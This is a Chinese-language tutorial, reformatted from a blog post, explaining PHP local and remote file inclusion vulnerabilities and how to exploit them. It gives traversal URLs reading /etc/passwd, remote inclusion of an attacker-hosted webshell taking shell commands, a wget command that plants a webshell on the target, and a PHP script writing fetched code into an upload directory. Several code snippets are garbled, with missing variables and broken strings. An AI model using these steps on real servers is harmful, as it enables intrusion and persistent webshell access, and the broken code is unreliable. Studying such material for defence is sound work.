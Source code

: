 # 远程包含和本地包含漏洞的原理

原文: https://blog.csdn.net/iiprogram/article/details/2349322
本文档仅整理格式

`http://www.aaa.com/index.php?read=../../../../../../../../../../../../../../etc/passwd`

---

# 原理

首先，我们来讨论包含文件漏洞,首先要问的是,什么才是"远程文件包含漏洞"？回答是：服务器通过 php 的特性（函数）去包含任意文件时，由于要包含的这个文件来源过滤不严，从而可去包含一个恶意文件，而我们可以构造这个恶意文件来达到邪恶的目的。几乎所有的 cgi 程序都有这样的 bug，只是具体的表现方式不一样罢了。

---

# 涉及到的危险函数

- include() && require() 语句:包括并运行指定文件。

    这两种结构除了在如何处理失败之外完全一样。include() 产生一个警告而 require() 则导致一个致命错误。换句话说，如果你想在遇到丢失文件时停止处理页面就用 require()。include() 就不是这样，脚本会继续运行。

    如果"allow_url_fopen"在 PHP 中被激活（默认配置），也可以用 URL（通过 HTTP 或者其它支持的封装协议）而不是本地文件来指定要被包括的文件。如果目标服务器将目标文件作为 PHP 代码解释，则可以用适用于 HTTP GET 的 URL 请求字符串来向被包括的文件传递变量。

- require_once()　＆＆　include_once()

    require_once () 和 include_once() 语句在脚本执行期间包括并运行指定文件。此行为和 require() 语句类似，唯一区别是如果该文件中的代码已经被包括了，则不会再次包括。适用于在脚本执行期间同一个文件有可能被包括超过一次的情况下，你想确保它只被包括一次以避免函数重定义，变量重新赋值等问题。

---

# 为什么要包含文件

程序员写程序的时候，不喜欢干同样的事情，也不喜欢把同样的代码（比如一些公用的函数）写几次，于是就把需要公用的代码写在一个单独的文件里面，比如 share.php，而后在其它文件进行包含调用。在 php 里，我们就是使用上面列举的那几个函数来达到这个目的的，它的工作流程：如果你想在 main.php 里包含 share.php,我将这样写 include("share.php")就达到目的，然后就可以使用 share.php 中的函数了，像这个写死需要包含的文件名称的自然没有什么问题，也不会出现漏洞，那么问题到底是出在哪里呢？
有的时候可能不能确定需要包含哪个文件，比如先来看下面这个文件 index.php 的代码：

```php
if ([page]) {
include GET[page];
} else {
include "home.
}
```

很正常的一段 PHP 代码，它是怎么运作的呢？这里面涉及到 GET 的意义，我就不打算讲了（要不又能写篇 HTTP 的文章了），如果你还不了解 GET，POST,等，那么你需要再 Google 一些相关的资料好好补一补了。
上面这段代码的使用格式可能是这样的：`http://www.1steam.cn/php/index.php?page=main.php` 或者 `http://www.1steam.cn/php/index.php?page=downloads.php` ,结合上面代码，简单说下怎么运作的：

1. 提交上面这个 URL，在 index.php 中就取得这个 page 的值（_GET[page]）。
2. 判断GET[page]是不是空，若不空（这里是 main.php）就用 include 来包含这个文件。
3. 若_GET[page]空的话就执行else，来 nclude　home.php　这个文件。

---

# 为什么会产生漏洞

你也许要说，这样很好呀，可以按照URL来动态包含文件，多么方便呀，怎么产生漏洞的呢？问题的答案是：我们不乖巧，我们总喜欢和别人不一样，我们不会按照他的链接来操作，我们可能想自己写想包含（调用）的文件，比如我们会随便的打入下面这个 URL：`http: //www.1steam.cn/php/index.php?page=hello.php` 。然后我们的 index.php 程序就傻傻按照上面我们说得步骤去执行：取 page 为 hello.php，然后去 include(hello.php)，这时问题出现了，因为我们并没有 hello.php 这个文件，所以它  include 的时候就会报警告，类似下列信息：

Quote:

`Warning: include(hello.php) [function.include]: failed to open stream: No such file or directory in /vhost/wwwroot/php/index.php on line 3`

`Warning: include() [function.include]: Failed opening 'hello.php' for inclusion (include_path='.:') in /vhost/wwwroot/php/index.php on line 3`

注意上面的那个 Warning 就是找不到我们指定的 hello.php 文件，也就是包含不到我们指定路径的文件；而后面的警告是因为前面没有找到指定文件，所以包含的时候就出警告了。

---

# 怎么利用

上面可以看到，问题出现了，那么我们怎么利用这样的漏洞呢，利用方法其实很多，但是实质上都是差不多的，我这里说三个比较常见的利用方法：

1. 包含读出目标机上其它文件

    由前面我们可以看到，由于对取得的参数 page 没有过滤，于是我们可以任意指定目标主机上的其它敏感文件，例如在前面的警告中，我们可以看到暴露的绝对路径(vhost/wwwroot/php/)，那么我们就可以多次探测来包含其它文件，比如指定 URL 为：`http: //www.1steam.cn/php/index.php?page=./txt.txt` 可以读出当前路径下的 txt.txt 文件，也可以使用.. /../进行目录跳转（在没过滤../的情况下）；也可以直接指定绝对路径，读取敏感的系统文件，比如这个 URL：`http: //www.1steam.cn/php/index.php?page=/etc/passwd` ，如果目标主机没有对权限限制的很严格，或者启动 Apache 的权限比较高，是可以读出这个文件内容的。否则就会得到一个类似于：open_basedir restriction in effect. 的 Warning。

2. 包含可运行的PHP木马

    如果目标主机的"allow_url_fopen"是激活的（默认是激活的，没几个人会修改），我们就可以有更大的利用空间，我们可以指定其它 URL 上的一个包含 PHP 代码的 webshell 来直接运行，比如，我先写一段运行命令的PHP代码（加了注释，应该看得懂），如下保存为 cmd.txt（后缀不重要，只要内容为PHP格式就可以了）。

    以上这个文件的作用就是接受 cmd 指定的命令，并调用 passthru 函数执行，把内容返回在 1.S.T 之间。把这个文件保存到我们主机的服务器上（可以是不支持 PHP 的主机），只要能通过 HTTP 访问到就可以了，例如地址如下：`http: //www.1ster.cn/cmd.txt` ,然后我们就可以在那个漏洞主机上构造如下URL来利用了：`http: //www.1steam.cn/php/index.php?page=http://www.1ster.cn/cmd.txt?cmd=ls` ,其中 cmd 后面的就是你需要执行的命令，其它常用的命令（以*UNIX为例）如下：

    Quote:
    ```
    ll 列目录、文件（相当于Windows下dir)
    pwd 查看当前绝对路径
    id whoami 查看当前用户
    wget　下载指定 URL 的文件
    ```

    上面的方法就是得到一个 Webshell 了（虽然这个 PHP 文件不在目标机上，但是它确实是个 Webshell，不是么？呵呵）

3. 包含一个创建文件的 PHP 文件

    也许有的人认为还是得到目标机上的一个真实的 Webshell 比较放心，万一哪天人家发现这儿个包含漏洞修补了，我们就不能再远程包含得到上面的那个"伪 "Webshell 了，不是么？可以理解这个心态，我们继续。得到一个真实的 Webshell，我们也说两种常见的方法：

    1. 使用 wget 之类的命令来下载一个 Webshell

        这个比较简单，也很常用，在上面我们得到的那个伪 webshell 中，我们可以执行命令，那么我们也可以调用系统中的一个很厉害的角色，wget，这个命令的强大你可以google下，参数一大堆，绝对搞晕你，呵呵，我们不需要那么复杂，我们就使用一个-O（--output- document=FILE，把文档写到 FILE 文件中） 就可以了，呵呵。

        前提是你在按照前面的步骤放一个包含 PHP 代码的 Webshell 在一个可以通过 HTTP 或者 FTP 等可以访问的地方，比如：`http: //www.1ster.cn/1stphp.txt` ,这个文件里写的就是 Webshell 的内容。然后我们在前面得到的伪 Webshell 中执行如下的 URL：`http://www.1steam.cn/php/index.p ... w.1ster.cn/cmd.txt?cmd=wget http://www.1ster.cn/1stphp.txt -O 1stphp.php` ，如果当前目录可写，就能得到一个叫做 1stphp.php 的 Webshell了；如果当前目录不可写，还需要想其它的办法。

    2. 使用文件来创建

        前面的 wget 可能会遇到当前目录不能写的情况；或者目标主机禁用了（或者没装）这个命令，我们又需要变通一下了，我们可以结合前面的包含文件漏洞来包含一个创建文件（写文件）的 PHP 脚本，内容如下：

        ```php
        $f=file_get_contents("www.1ster.cn/1stphp.打开指定路径的文件流")
        $=fopen("./upload/1st.php","a"); 　　　　//寻找一个可以的目录，创建一个文件
        fwrite (,$f); 　//把前面打开的文件流写到创建的文件里
        fclose(); 　　　//关闭保存文件
        ?>
        ```

        还是写入我们上面用 wget 下载的那个 php 文件，但是我们改进了方法，用 PHP 脚本来实现，可以使用上面的 cmd.php?cmd=ll 查找可以写的目录，比如这里的 upload，然后把文件创建在这个目录下：./upload/1st.php。然后就得到我们的 Webshell 了。
